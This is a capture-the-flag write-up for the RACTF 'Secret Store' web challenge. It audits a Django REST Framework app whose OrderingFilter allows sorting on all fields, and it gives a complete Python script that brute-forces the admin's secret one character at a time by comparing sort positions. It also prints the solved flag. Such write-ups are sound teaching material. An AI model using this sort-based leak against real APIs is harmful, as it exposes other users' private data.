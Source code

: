 ## RACTF - Secret Store / Web [ 300 points ] ( 10 solves )
**Description**

> How many secrets could a secret store store if a store could store
> secrets?

## General overview
The web app is a Django application where you can register/login as a user and save a secret text which shouldn't be visible to anyone else except you in your home page when you login. Other users can also post their own secret text and the goal is to find a way to stole the secret from other users in order to read the flag from the admin.
## Code audit
There is a rest framework implemented with [djangorestframework](https://pypi.org/project/djangorestframework/) for the secret text that users are posting. We can peek a look at his views and models inside the secret folder where the source is located. We can see the secret's model inside secret/models.py:

```python
class  Secret(models.Model):
	value  =  models.CharField(max_length=255)
	owner  =  models.OneToOneField(User, on_delete=CASCADE)
	last_updated  =  models.DateTimeField(auto_now=True)
	created  =  models.DateTimeField(auto_now_add=True)
```
And there is a model serializer for the model Secret inside secret/serializers.py:
```python
class  SecretSerializer(serializers.ModelSerializer):
	class  Meta:
		model  =  Secret
		fields  = ["id", "value", "owner", "last_updated", "created"]
		read_only_fields  = ["owner", "last_updated", "created"]
		extra_kwargs  = {"value": {"write_only": True}}

	def  create(self, validated_data):
		validated_data["owner"] =  self.context["request"].user
		if  Secret.objects.filter(owner=self.context["request"].user):
			return  super(SecretSerializer, self).update(Secret.objects.get(owner=self.context['request'].user), validated_data)
		return  super(SecretSerializer, self).create(validated_data)
```
From the serializer we can see that the fields owner, last_updated, created and (implicitly) the id are read only, and the value field is write only.
Inside secret/views.py we can see the views of the web app and what they are doing:
```python
class  SecretViewSet(viewsets.ModelViewSet):
	queryset  =  Secret.objects.all()
	serializer_class  =  SecretSerializer
	permission_classes  = (IsAuthenticated  &  IsSecretOwnerOrReadOnly,)
	filter_backends  = [filters.OrderingFilter]
	ordering_fields  =  "__all__"

class  RegisterFormView(CreateView):
	template_name  =  "registration/register.html"
	form_class  =  UserCreationForm
	model  =  User
	success_url  =  "/"

def  home(request):
	if  request.user.is_authenticated:
		secret  =  Secret.objects.filter(owner=request.user)
	if  secret:
		return  render(request, "home.html", context={"secret": secret[0].value})
	return  render(request, "home.html")
```
We can see the home page view which just asks the database if a logged in user has a secret and displays it to him if it does, inside the home page. Apart from this view we can see that is implemented a ViewSet which is basically an easy automated way to query the database and display to the user the results. In our case we can get a json with all read only fields of the Secret serializer for example visiting [http://challange/api/secret?format=json](https://www.django-rest-framework.org/api-guide/format-suffixes/) we get as a result:

    [{"id":1,"owner":1,"last_updated":"2021-08-04T21:55:59.750611Z","created":"2021-08-04T21:55:32.221867Z"},{"id":2,"owner":8,"last_updated":"2021-08-13T20:16:05.306976Z","created":"2021-08-13T20:16:05.307065Z"},{"id":3,"owner":12,"last_updated":"2021-08-13T22:17:15.718312Z","created":"2021-08-13T21:41:25.913725Z"},{"id":4,"owner":113,"last_updated":"2021-08-14T16:08:40.385043Z","created":"2021-08-14T16:07:45.011707Z"},{"id":5,"owner":111,"last_updated":"2021-08-14T17:50:00.910477Z","created":"2021-08-14T17:50:00.910544Z"},{"id":6,"owner":126,"last_updated":"2021-08-15T08:23:42.895236Z","created":"2021-08-15T08:04:32.918062Z"},{"id":7,"owner":129,"last_updated":"2021-08-15T08:53:06.531769Z","created":"2021-08-15T08:53:06.531818Z"},{"id":8,"owner":133,"last_updated":"2021-08-15T17:48:13.303999Z","created":"2021-08-15T12:34:30.069458Z"},{"id":9,"owner":134,"last_updated":"2021-08-15T17:17:50.206823Z","created":"2021-08-15T17:17:33.212906Z"}]
Reading carefully django's rest framework documentation for [OrderingFilter](https://www.django-rest-framework.org/api-guide/filtering/#orderingfilter) we can see that we can supply an ordering query parameter to filter (sort) out our json output to our needs. Reading further the documentation we spot the following line:

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on _any_ model field or queryset aggregate, by using the special value `'__all__'`.

Which is exactly our case :), our own little SecretViewSet specifies that we can filter by any field our query, so basically we can post a secret with initial value `ractf{` , order the output by `values` and compare our own secret value with the admin's secret value which i assume is the user with id=1 and owner=1.
## Exploit

```python
import requests
from bs4 import BeautifulSoup
import json
import string

def find_owner(orderings, owner):
    for i, ordering in enumerate(orderings):
        if ordering['owner'] == owner:
            return i
    
    #Owner not found in orderings
    return None

session = requests.Session()
url = 'http://challenge:port' # Change this
login_url = f'{url}/auth/login/'
logout_url = f'{url}/auth/logout/'
api_secret_url = f'{url}/api/secret/'

r = session.get(url = login_url)
parse = BeautifulSoup(r.text, "html.parser")

# Extract csrf token to be able to login
csrf_token = parse.find_all('input')[0]['value']

# You have to register agent007 first.
post_data = {
    'csrfmiddlewaretoken': csrf_token,
    'username': 'agent007',
    'password': 'SecretPassword007.'
}

flag = r'ractf{' # Final flag ractf{data_exf1l_via_s0rt1ng_0c66de47}

# Sign in to agent007
r = session.post(url  = login_url, 
                 data = post_data)

# Let's save some secrets ;)
r = session.post(url = api_secret_url, 
                 json = {
                     'value': flag
                 }, 
                 headers = {
                     'X-CSRFToken': session.cookies['csrftoken']
                 }
)

print(f'Status code === {r.status_code}')
_, owner, _, _ = json.loads(r.text).values() # Get our owner id in order to be able to recognize our position in the final orderings

# When positive means we surpassed the flag value
# When negative means we need to go forward
# When from negative becomes positive it means the previous character was the correct character of the nth pos of the flag
cmp = 0

alphabet = string.digits + ':_`' + string.ascii_letters + '}~'
while not '}' in flag:
    # Iterate through every character in the alphabet
    # Post the flag appended with this character as our little secret and compare the results to bruteforce the characters of the flag
    for c in alphabet:
        r = session.post(url = api_secret_url, 
                    json = {
                        'value': flag + c
                    }, 
                    headers = {
                        'X-CSRFToken': session.cookies['csrftoken']
                    }
        )
        
        orderings = json.loads(
            session.get(url = api_secret_url + '?format=json&ordering=value').text
        )
        
        orderings_user_idx = find_owner(orderings, owner)
        orderings_flag_idx = find_owner(orderings, owner = 1)
        cmp = orderings_flag_idx - orderings_user_idx
        if cmp < 0:
            prev_c = chr(ord(c)-1)
            print(flag + prev_c)
            flag += prev_c
            break
```

